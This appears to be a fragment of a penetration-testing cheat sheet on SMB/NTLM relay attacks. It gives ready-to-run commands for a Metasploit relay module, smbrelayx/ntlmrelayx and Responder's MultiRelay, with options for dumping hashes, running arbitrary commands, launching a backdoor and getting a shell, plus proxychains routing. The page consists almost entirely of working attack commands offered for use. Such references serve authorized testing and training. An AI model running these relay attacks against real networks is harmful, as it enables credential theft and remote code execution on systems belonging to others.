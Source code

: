```bash
setg Proxies socks4:127.0.0.1:1080 # Use this if you need to route the traffic to reach the attacked ip
set SRVHOST <local_ip>
set SRVPORT 445
set SMBHOST <ip_to_auth_to>
run -j
```

### smbrelayx

```bash
python3 smbrelayx.py -t smb://<ip_to_attack> -smb2support --no-http-server --no-wcf-server
# By default it will just dump hashes
# To execute a command use: -c "ipconfig"
# To execute a backdoor use: -e "/path/to/backdoor

# Attack through socks proxy
proxychains python3 ntlmrelayx.py -t smb://<ip_to_attack> -smb2support --no-http-server --no-wcf-server
```

### MultyRelay

If you want to use **MultiRelay**, go to _**/usr/share/responder/tools**_ and execute MultiRelay (`-t <IP target> -u <User>`):

<pre class="language-bash"><code class="lang-bash"><strong>python MultiRelay.py -t &#x3C;IP target> -u ALL # If "ALL" then all users are relayed
</strong># By default a shell is returned
python MultiRelay.py -t &#x3C;IP target> -u ALL -c whoami #-c to execute command
python MultiRelay.py -t &#x3C;IP target> -u ALL -d #-d to dump hashes

# Use proxychains if you need to route the traffic to reach the attacked ip</code></pre>
